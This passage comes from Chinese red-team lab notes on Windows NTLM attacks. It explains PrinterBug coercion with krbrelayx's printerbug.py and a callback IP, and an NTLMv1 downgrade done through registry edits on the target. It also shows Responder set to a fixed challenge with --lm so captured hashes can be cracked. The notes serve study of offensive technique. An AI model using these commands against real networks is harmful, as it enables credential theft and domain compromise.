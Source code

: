工作组触发 printerbug 是没问题，pipepotato 在工作组内也能起作用，问题在打印机服务是以 system 用户的权限运行的服务，system 用户在工作组内的网络凭据是匿名的，wireshark 抓包应该可以看到是 \，也就是不携带任何凭据。域内能利用是因为 system 用户在域内的网络凭据是机器用户的凭据。所以主要问题应该是网络凭据这块。network service 的网络凭据也是机器用户,pc默认会开启，且一般很少去关

- **krbrelayx**
  - [dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
    ```
    python3 printerbug.py 域/用户名:密码@打印机服务ip 回连ip
    ```

---

# 加密降级攻击(或使用 Internal-Monologue)

在实际情况中，NTLMv1 hash 也是存在于 winserver 2003、windows xp 上，而在 win7 上是默认关闭的，我们可以通过修改注册表的方式，使 win7 支持 NTLM V1 认证.

由于 NTLM V1 认证过程的特殊性，非常容易被破解并还原出 NTLM HASH,为破解 NTLMv1 hash，我们还需要做一些准备，在 “欺骗阶段”，所以我们需要将 challenge 固定下来，得出特定 challenge 的 NTLMv1 hash，方便后续破解

这里手动在目标机器上降级
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f
```

修改 responder 配置文件,这里我们需要修改 responder.conf 里边的 challenge 值为 `1122334455667788`，然后再次开启 responder（注意加上 --lm 参数），此时收到的 NTLMv1 hash 就可以直接破解并还原出 NTLM HASH。
```
vim /usr/share/responder/Responder.conf
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/10.png)

开启 responder，启动参数加上 --lm, 不加这个参数就是并不是完全用的 server challenge，这就导致了生成的彩虹表不能使用，破解难度增加，得出 hash 的叫 NTLMv1-SSP Hash。
```
responder -I eth0 --lm
```

win7 执行命令

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/11.png)
